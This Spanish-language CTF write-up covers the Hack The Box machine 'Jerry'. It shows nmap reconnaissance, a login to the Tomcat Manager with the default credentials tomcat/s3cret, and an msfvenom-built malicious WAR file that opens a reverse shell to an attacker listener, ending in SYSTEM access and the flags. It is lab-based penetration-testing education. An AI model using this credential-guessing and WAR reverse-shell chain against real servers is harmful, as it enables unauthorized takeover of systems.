



# Jerry

Aunque Jerry es una de las máquinas más fáciles de usar en Hack The Box, es realista ya que Apache Tomcat a menudo se encuentra expuesto y configurado con credenciales comunes o débiles.

<figure><figcaption></figcaption></figure>

***

## Reconnaissance <a href="#reconnaissance" id="reconnaissance"></a>

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **Jerry**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -Pn -n 10.10.10.95 -oG allPorts
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-24 19:03 CET
Nmap scan report for 10.10.10.95
Host is up (0.060s latency).
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 122.56 seconds
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.10.95
	[*] Open ports: 8080

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos.

```bash
❯ nmap -sCV -p8080 10.10.10.95 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-24 19:07 CET
Nmap scan report for 10.10.10.95
Host is up (0.081s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Apache Tomcat
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012|2008|7 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2012 R2 (97%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   108.22 ms 10.10.16.1
2   108.59 ms 10.10.10.95

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.82 seconds
```

Transformaremos el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

## Information Leakage

Accederemos a[ http://10.10.10.95:8080](http://10.10.10.95:8080) y verificaremos que se trata de un panel de `Apache Tomcat`.


Apache Tomcat (o, sencillamente, Tomcat) es un contenedor de servlets que se puede usar para compilar y ejecutar aplicaciones web realizadas en Java.


Investigaremos las funcionalidades del panel, probaremos de acceder a **Manager App**.

<figure><figcaption></figcaption></figure>

Al acceder a **Manager App**, verificamos que el sitio web nos pide credenciales de acceso, credenciales que no disponemos actualmente.

<figure><figcaption></figcaption></figure>

Realizamos una búsqueda en Internet, sobre la contraseña por defecto que dispone **Tomcat** y nos encontramos con el siguiente repositorio con posibles credenciales de acceso.



Al probar de acceder con las credenciales `admin/admin`, verificamos que nos aparece un mensaje de `403 Access Denied`. También visualizamos que la página indica que si no han habido modificaciones en las configuraciones, de examinar el archivo `conf/tomcat-users.xml`.

Por otro lado, también nos muestra un ejemplo con el usuario `tomcat/s3cret.`

<figure><figcaption></figcaption></figure>

Revisando por Internet, nos encontramos con el siguiente foro en el cual mencionan exactamente el mismo archivo de configuración.



<figure><figcaption></figcaption></figure>

Al probar de acceder a [http://10.10.10.95:8080/conf/tomcat-users.xml](http://10.10.10.95:8080/conf/tomcat-users.xml) no logramos encontrar nada importante.

<figure><figcaption></figcaption></figure>

Probamos acceder utilizando las credenciales que se mencionaban como ejemplo en el mensaje de error `403 Access Denied`. Tras verificar, confirmamos que las credenciales `tomcat/s3cret` nos permitieron acceder correctamente al panel de administración.

<figure><figcaption></figcaption></figure>

## Intrusion and Privilege Escalation

### Abusing Tomcat with WAR malicious file

Revisando el panel de administración, comprobamos que nos permite subir archivos con extensión `WAR`.


Un archivo WAR (Web Archive) es una aplicación Web empaquetada. Los archivos WAR se pueden utilizar para importar una aplicación Web a un servidor Web. Además de los recursos del proyecto, el archivo WAR incluye un archivo de descriptor de despliegue Web.


<figure><figcaption></figcaption></figure>

Buscando maneras de explotar `Tomcat` a través de archivos `WAR`, nos encontramos con el siguiente blog que nos muestra como podemos lograr tener acceso al sistema a través de un archivo `WAR` malicioso que nos proporcione una Reverse Shell.



El primer paso será crear nuestro binario malicioso con extensión `WAR` que nos proporcione una Reverse Shell.

```bash
❯ msfvenom -p java/shell_reverse_tcp lhost=10.10.16.5 lport=443 -f war -o pwn.war
Payload size: 13030 bytes
Final size of war file: 13030 bytes
Saved as: pwn.war
```

Nos pondremos en escucha por el puerto especificado en el binario malicioso.

```bash
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
```

Subiremos el archivo malicioso en el panel de adminsitración de `Tomcat`.

<figure><figcaption></figcaption></figure>

Verificaremos que se ha subido correctamente nuestro archivo malicioso en `Tomcat`.

<figure><figcaption></figcaption></figure>

Realizaremos una petición por el método `GET` a través de la herramienta `cURL` sobre el archivo malicioso subido en `Tomcat`.

```bash
❯ curl -s X GET 'http://10.10.10.95:8080/pwn'
```

Comprobaremos que hemos ganado acceso al equipo víctima. En este caso disponemos del usuario `NT AUTHORITY\SYSTEM`, lo que nos otorga control total en el sistema objetivo.

Verificaremos las flags de **user.txt** y **root.txt** que se encuentran en un mismo archivo.

```bash
❯ rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

C:\apache-tomcat-7.0.88> cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of C:\Users\Administrator\Desktop

06/19/2018  06:09 AM    <DIR>          .
06/19/2018  06:09 AM    <DIR>          ..
06/19/2018  06:09 AM    <DIR>          flags
               0 File(s)              0 bytes
               3 Dir(s)   2,419,822,592 bytes free

C:\Users\Administrator\Desktop>cd flags
cd flags

C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  06:09 AM    <DIR>          .
06/19/2018  06:09 AM    <DIR>          ..
06/19/2018  06:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)   2,419,822,592 bytes free

C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f8********************

root.txt
04a8b36e1545********************
```
